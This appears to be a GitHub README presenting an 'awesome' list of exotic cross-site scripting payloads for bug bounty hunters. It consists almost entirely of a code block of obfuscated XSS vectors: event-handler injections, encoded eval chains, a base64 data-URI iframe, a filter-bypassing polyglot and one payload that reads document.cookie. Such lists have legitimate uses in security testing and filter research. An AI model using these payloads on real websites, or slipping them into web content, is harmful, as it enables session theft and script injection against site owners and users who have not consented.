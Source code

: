 # Awesome XSS Payloads and Vectors
Exotic and uncommon XSS Vectors to hit the target as quickly as possible.
THIS IS SPECIALLY FOR BUG BOUNTY HUNTERS AND SECURITY RESEARCHERS.

I REQUEST TO CONTRIBUTE TO THE PROJECT BY INCLUDING ONLY HIGHLY EXOTIC XSS VECTORS.


```
“><svg/onload=alert(document.domain)>”@x.y

onerror%3Deval%3Bthrow'%3Dalert%5Cx281%5Cx29'%3B

<iframe %00 src="&Tab;javascript:prompt(1)&Tab;"%00>

<input/onmouseover="javaSCRIPT&colon;confirm&lpar;1&rpar;"

&#34;&#62;<svg><style>{-o-link-source&colon;'<body/onload=confirm(1)>
  '
<--`<img/src=` onerror=alert(1)> --!>
  
'';!--\"&lt;XSS&gt;=&{()}

¼script¾alert(¢XSS¢)¼/script¾

“><s”%2b”cript>alert(document.cookie)</script>

<iframe/src="data:text/html;&Tab;base64&Tab;,PGJvZHkgb25sb2FkPWFsZXJ0KDEpPg==">

a=\"get\";
b=\"URL(\\"\";
c=\"javascript&#058;\";
d=\"alert('XSS');\\")\";
eval(a+b+c+d);

<w="/x="y>"/ondblclick=`<`[confir\u006d``]>z

<svg•onload=alert(1)>

<!'/*"/*/'/*/"/*--></Script><Image SrcSet=K */; OnError=confirm`1` //># //This payload is used to fool and bypass advanced xss filters by fooling as if it is comments.
```
